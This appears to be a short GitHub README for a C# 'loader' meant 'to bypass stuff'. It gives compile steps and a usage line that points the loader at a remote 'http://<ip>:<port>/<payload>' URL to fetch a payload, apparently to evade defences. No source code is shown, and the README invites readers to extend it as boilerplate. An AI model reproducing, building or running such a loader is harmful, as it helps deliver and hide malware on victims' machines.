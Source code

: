 # loader
a loader to bypass stuff.
## Execution with Loader
https://github.com/user-attachments/assets/dfc99aad-7b4c-4378-94a7-f54217641113

## Execution without loader
https://github.com/user-attachments/assets/e42847ef-3596-4815-abb6-0702b9d7f873

## How to Compile
make sure you have visual studio 2022 installed. then open the cross tools command prompt for vs 2022 and enter: 

```cmd
csc.exe /t:exe /out:YourLoaderName.exe loader_final.cs
```

## Usage
```
taskOneLoader.exe -path "http://<ip>:<port>/<payload>"
```
you can also use this as boiler plate and add more stuff to it to make it cool. 
